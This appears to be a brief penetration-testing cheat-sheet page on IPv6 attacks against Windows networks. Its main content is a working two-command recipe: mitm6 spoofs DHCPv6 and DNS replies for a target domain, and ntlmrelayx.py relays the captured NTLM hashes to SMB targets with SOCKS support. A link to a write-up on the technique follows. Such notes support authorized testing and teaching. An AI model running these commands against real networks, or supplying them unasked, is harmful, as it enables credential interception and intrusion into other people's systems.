 # IPv6 Attacks

## Brief

> All Windows versions since Windows Vista (including server variants) have **IPv6 enabled** and prefer it over IPv4.&#x20;
>
> IPv6 attacks abuses the default IPv6 configuration in Windows networks to **spoof DNS** **replies** by acting as a malicious DNS server and redirect traffic to an attacker specified endpoint.

## Basic Attack

First we start mitm6, which will start replying to DHCPv6 requests and afterwards to DNS queries requesting names in the internal network.

```bash
mitm6 -d $domain

# For the second part of our attack, we use  ntlmrelayx to relay the captured hashes. Now i will show two possible ways to use this tool, first through a simple SMB relay. 
ntlmrelayx.py -6 -tf Targets.txt -socks -smb2support
```

## More

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/" %}
